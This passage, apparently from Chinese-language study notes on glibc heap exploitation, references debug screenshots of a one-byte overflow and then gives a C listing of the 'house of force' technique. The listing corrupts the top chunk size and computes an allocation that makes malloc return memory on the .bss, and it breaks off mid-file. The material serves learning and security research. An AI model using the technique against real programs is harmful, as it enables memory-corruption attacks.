 溢出覆盖一个字节前调试信息：

![](../image/2019-10-10-堆利用记录/36.jpg)

溢出覆盖一个字节后调试信息：

![](../image/2019-10-10-堆利用记录/37.jpg)

### house_of_force.c

```
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

char bss_var[] = "This is a string that we want to overwrite.";

int main(int argc , char* argv[])
{
	
	intptr_t *p1 = malloc(256);
	int real_size = malloc_usable_size(p1);

	//----- VULNERABILITY ----
	intptr_t *ptr_top = (intptr_t *) ((char *)p1 + real_size - sizeof(long));

	*(intptr_t *)((char *)ptr_top + sizeof(long)) = -1;
    //篡改top chunk的size成一个很大的数
    //绕过(unsigned long) (size) >= (unsigned long) (nb + MINSIZE)
    //保证不会调用mmap来分配空间
	
	unsigned long evil_size = (unsigned long)bss_var - sizeof(long)*4 - (unsigned long)ptr_top;

	/*
	 * The evil_size is calulcated as (nb is the number of bytes requested + space for metadata):
	 * new_top = old_top + nb //整数溢出
	 * nb = new_top - old_top
	 * req + 2sizeof(long) = new_top - old_top
	 * req = new_top - old_top - 2sizeof(long)
	 * req = dest - 2sizeof(long) - old_top - 2sizeof(long)
	 * req = dest - old_top - 4*sizeof(long)
	 */

	void *new_ptr = malloc(evil_size); //获得新的top chunk 地址

	void* ctr_chunk = malloc(100); //此时top chunk地址在bss上，再分配就得到bss的堆块
```